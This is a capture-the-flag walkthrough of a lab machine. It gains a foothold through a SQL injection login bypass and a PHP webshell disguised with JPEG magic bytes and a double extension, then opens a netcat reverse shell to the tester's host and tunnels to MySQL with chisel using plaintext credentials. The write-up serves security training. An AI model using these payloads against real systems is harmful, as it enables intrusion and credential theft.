 #### Foothold

I run `nmap` and find ports `22` and `80` open.

I visit the web-app at the ip address given and see it has images posted. There is a login page with a basic SQL injection vulnerability, in the username I enter `admin'-- -` and in the password I enter `pass`, but doesn't matter as it's commented out.

This get's me to the `/upload.php`, where I can upload a `jpg`, `jpeg` or `png` file. Images are saved in the directory `/images/uploads`.

Apache has a vulnerability, according to the Apache Documentation, files can have more than one extension.

While the order is normally irrelevant. When a file with multiple extensions gets associated with both a media-type and a handler, it will result in the request being handled by the module associated with the handler. For example, let's say that we have the file test.php.jpg with the .php extension mapped to the handler application/x-httpd-php , and the .jpg extension mapped to the image/jpeg media-type. Then, the application/x-httpd-php handler will be used and it will be treated as an php file.

So i create a file called `webshell.php.jpg` that will be accepted by the `.jpg` check, but runs php code.

I create a php shell to upload, the first line enters 'magic bytes', which fools a server check that the file is a `jpeg/jpg`:

```
$ echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
$ echo '<?=`$_GET[0]`?>' >> webshell.php.jpg
```

After the file is uploaded I run the following reverse shell in the web browser. Several other reverse shells were tried but did not work.

```
busybox nc 10.10.14.207 4444 -e /bin/bash
```

This is what I run in the web browser:

```
http://10.10.10.185/images/uploads/webshell.php.jpg?0=busybox nc 10.10.14.207 4444 -e /bin/bash
```

#### Lateral Movement



To get a better shell, I run the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After enumerating the files in the victim's box I see credentials to `mysql`, but when I attempt to login to `mysql`, I see that the `mysql` client hasn't been downloaded.

I can download the `mysql` client locally and port forward `3306` to my local to run `mysql` commands there.

To port forward I want to run `chisel`, which I download a binary from here -> https://github.com/jpillora/chisel/releases. I decompress the binary and making it available via a webserver by running: 

```
$ gzip -d chisel_1.7.0-rc8_linux_amd64.gz
$ chmod +x chisel_1.7.0-rc8_linux_amd64
$ ./chisel_1.7.0-rc8_linux_amd64 server -p 8000 -reverse
$ python3 -m http.server
```

Then on the victim box I go to the `/tmp` directory, 
```
$ cd /tmp
$ wget http://10.10.14.7:8080/chisel_1.7.0-rc8_linux_amd64
$ ./chisel_1.7.0-rc8_linux_amd64 client 10.10.14.7:8000 R:3306:127.0.0.1:3306 &
```

Finally, locally I can access the database with mysql:

```
mysql -h 127.0.0.1 -P 3306 -u theseus -piamkingtheseus
```

After navigating the database I `select * from login`, and I get the password for the user `theseus`. I connect to `theseus` by running `su theseus`.

The user flag is located on `/home/theseus/user.txt`.

#### Privesc

Cannot change the cat script in `tmp` to add reverse shell. Stopping here...